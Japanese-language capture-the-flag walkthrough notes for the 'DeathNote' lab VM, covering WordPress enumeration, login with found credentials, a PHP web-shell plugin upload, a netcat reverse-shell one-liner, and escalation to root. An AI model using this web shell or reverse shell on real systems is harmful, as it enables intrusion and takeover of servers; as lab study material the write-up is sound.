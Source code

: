 ## DeathNote
### ポートスキャンまで同じ
- 22, 80

### Webサイトを見る
- IPアドレスでサイトを見るとdeathnote.vulnにリダイレクトされてサイトが見れないので、vimで以下のように書き換える
-  /etc/hostsを書き換える
  - `192.168.56.115  deathnote.vuln`
- ちなみにブラウザのリンクに直接`http://deathnote.vuln/wordpress/`を入力してもダメ 
- wordpressで作られているのがわかる
- サイトをよく見ると、`my fav line is iamjustic3`という言葉がある、これを訳すと何になる？

### wpscan
- `wpscan --url http://deathnote.vuln/wordpress/`
  - うまくいかなければ、ブラウザのhttpのとこのリンクをコピーしてくる
  - gobusterと異なりリンクを深く探す
- もしエラー出たら、updateなので一度ネットにつなげて更新する

### 興味深いURLにアクセスする
- `http://192.168.56.115/wordpress/wp-content/uploads`
  - こういうファイルが一覧で表示されるのをディレクトリリスティングと呼ぶ 
- `wget http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt`
- `wget http://deathnote.vuln/wordpress/wp-content/uploads/2021/07/user.txt`

### WordPressのユーザを列挙する
- `wpscan --url http://deathnote.vuln/wordpress/ --enumerate u`

### wordpressのログイン画面でログインを試みる
- `http://deathnote.vuln/wordpress/wp-login.php`
- user(kira),password(iamjustic3)はサイトに書いてあるので探してダッシュボードにログイン

### 404.phpに書き込んでリバースシェルする
- ハッキングラボ11でもやった、404.phpに書き込んでやるのをやってみるがfileのuploadができないので、ここでは使えない

### バックドア(実際は常時使えるリバースシェル)の設置を目指す
- なぜzipファイルをpluginすれば、リバースシェルできるのか謎。本には何も書いていない。searchsploitで見てもない
- banner.php
```
<?php
/*
Plugin Name: PHP Web Shell
Version: 1.0.0
Author: evil user
Author URI: http://hacking.lab
*/
?>
```
- cmd.php
```
<?php
echo system($_REQUEST['cmd']);
?>
```
- `ls`
  - `banner.php cmd.php` この２つのファイルがあるのを確認
- `zip evil banner.php cmd.php`
  - `evil`ができている     

### evil.zipを送り込む
- wordpressのダッシュボードのPluginsを選択します
- Add Newを押す,Upload Pluginを押す
- Browseを押してevil.zipを選択する
- install nowを押す。
- プラグイン一覧にPHP Web Shellが表示され、背景が青くなっていれば有効

### ブラウザからコマンドを実行する
- `http://deathnote.vuln/wordpress/wp-content/plugins/evil/cmd.php?cmd=id`
  - パスにあるevilはuploadしたevil.zipファイルの名前
  - cmd.phpは圧縮前のファイル名
  - ?cmdはコードの中で指定したもの 

### リバースシェルのセッションを確立する
- `nc -nlvp 4444`
- 次のコードをブラウザのURLに送り込む、ipアドレスは自分のParrot側の
- `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.56.101 4444 > /tmp/f`
- 上のを`https://www.urlencoder.org`でencodeしてコピー
- `http://deathnote.vuln/wordpress/wp-content/plugins/evil/cmd.php?cmd=~`
- `~`のところにエンコードしてコピーしたのを貼り付けてブラウザでアクセスするとシェルを取得できる

### TTYシェルを奪取する
- インタラクティブシェルかを確認
  - `echo $-`
  - `i`が入っていればインタラクティブシェル 
- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
### WordPressの設定ファイルを確認する
- `cd /var/www/deathnote.vuln/wordpress`
  - 設定ディレクトリはwordpressにある
- `ls`
- `cat wp-config.php`  
- データベースへのアクセスに必要な情報がある
  - user:l
  - password:death4me
### ユーザを切り替える
- 本来はSQLのユーザ名とパスワードだが使い回しているかもしれない
- `su l`

### システム内の探索
- /optディレクトリに怪しいディレクトリがある
- どこかに、`case.wav`があるので、サイトのCyberChefでキーワードがデコードされる

### 別のユーザに切り替える
- `su kira`
- password:`kiraisevil`
- さっきのキーワードがパスワード

### Base64でデコードする
- kiraのhomeにBase64でデコードされた暗号がある
- `cat kira.txt | base64 -d`

### sudoの確認
- `sudo -l`
- kiraは全知全能であることがわかる

### ルートシェルを奪取してフラグファイルを開く
- `sudo su`
- `cd root`
- `cat root.txt`
